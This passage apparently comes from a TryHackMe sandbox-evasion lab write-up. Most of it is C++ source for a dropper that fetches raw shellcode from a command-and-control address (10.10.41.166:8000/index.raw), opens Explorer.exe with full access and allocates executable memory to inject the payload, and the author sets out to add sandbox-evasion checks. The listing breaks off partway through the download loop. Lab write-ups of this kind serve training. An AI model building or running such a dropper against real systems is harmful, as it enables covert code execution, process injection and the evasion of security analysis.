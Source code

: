 ```console
//Update the c2URL with your IP Address and the specific URI where your raw shellcode is stored.
const char* c2URL = "http://10.10.41.166:8000/index.raw";

//Update the buff[] variable to include your shellcode size
char buff[510];

//Update the Read file descriptor to include your shellcode size
stream->Read(buff, 510, &bytesRead);
```
{: .nolineno }

We have now to add the 4 requested "checks". We are provided the code in the others cpp files. The first one should be the sleep call as mention in the hint :

![Hint](/images/thm/sandboxevasion/sandboxevasion_2.png)
_Hint_

The final dropper.cpp looks like :

```cpp
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>
#include <urlmon.h>
#include <cstdio>
#include <lm.h>
#include <DsGetDC.h>
#pragma comment(lib, "urlmon.lib")
#pragma comment(lib, "netapi32.lib")

using namespace std;

int downloadAndExecute()
{
    HANDLE hProcess;
//Update the dwSize variable with your shellcode size. This should be approximately 510 bytes
    SIZE_T dwSize = 510;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
//Update the OpenProcess Windows API with your Explorer.exe Process ID. This can be found in Task Manager
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 5524);
//Update the c2URL with your IP Address and the specific URI where your raw shellcode is stored.
    const char* c2URL = "http://10.10.41.166:8000/index.raw";
    IStream* stream;
//Update the buff[] variable to include your shellcode size
    char buff[510];
    unsigned long bytesRead;
    string s;
    URLOpenBlockingStreamA(0, c2URL, &stream, 0, 0);
    while (true) {
//Update the Read file descriptor to include your shellcode size
        stream->Read(buff, 510, &bytesRead);
        if (0U == bytesRead) {
            break;
```